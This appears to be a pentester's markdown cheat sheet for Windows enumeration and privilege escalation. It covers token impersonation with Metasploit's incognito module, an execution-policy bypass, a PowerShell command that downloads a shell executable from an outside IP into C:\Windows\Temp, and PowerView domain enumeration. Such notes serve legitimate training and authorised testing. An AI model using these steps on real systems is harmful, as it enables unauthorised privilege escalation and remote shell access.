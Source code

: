 # Windows Enumeration
---
## Windows tools
- Nishang
- Windows Exploit Suggester 
---
## View all the privileges using whoami /priv
- The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

	- SeImpersonatePrivilege
	- SeAssignPrimaryPrivilege
	- SeTcbPrivilege
	- SeBackupPrivilege
	- SeRestorePrivilege
	- SeCreateTokenPrivilege
	- SeLoadDriverPrivilege
	- SeTakeOwnershipPrivilege
	- SeDebugPrivilege

- You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability. Enter: load incognito to load the incognito module in metasploit. Please note, you may need to use the use incognito command if the previous command doesn't work. Also ensure that your metasploit is up to date.

- To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token.

## Invoke PS from CMD and bypass ep
- powershell -ep bypass

## Powershell Wget Equivalent 
powershell -c "Invoke-WebRequest -Uri 'http://10.13.44.60/shell-x86.exe' -OutFile 'c:\Windows\Temp\shell.exe'"


## Powerview.ps1
. .\PowerView.ps1
Get-NetComputer -fulldata | select operatingsystem - gets a list of all operating systems on the domain
Get-NetUser | select cn - gets a list of all users on the domain
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993 - powerview cheat sheet
https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview - powerview cheat sheet